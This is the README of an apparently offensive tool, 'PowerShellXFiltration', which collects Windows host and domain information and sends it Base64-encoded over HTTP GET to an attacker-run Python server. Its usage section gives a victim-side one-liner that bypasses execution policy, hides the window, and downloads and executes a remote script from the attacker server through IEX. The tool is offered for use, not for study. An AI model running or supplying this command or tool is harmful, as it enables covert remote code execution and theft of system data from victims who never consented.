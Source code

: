 ## PowerShellXFiltration
A PowerShell script to exfiltrate information of a Windows system via HTTP server

### How it works
1. Runs several PS commands to retrieve information about the local system and the domain if any.
2. Sends the outputs to the webserver as GET parameter (and Base64 encoded)
3. The server logs any action in the current folder (`logs.txt`)
4. Create a directory with the system hostname and put all the exfiltrated info into

### Example
1. Change the listening IP/Port in `server.py` (default is `0.0.0.0:8000`).
2. Change the IP/port of your Python server in `client.ps1`.
3. Run:
```
ATTACKER> python3 server.py
VICTIM> powershell -ep bypass -windowstyle hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://<SERVER-IP>:<SERVER-PORT>/client.ps1');"
```
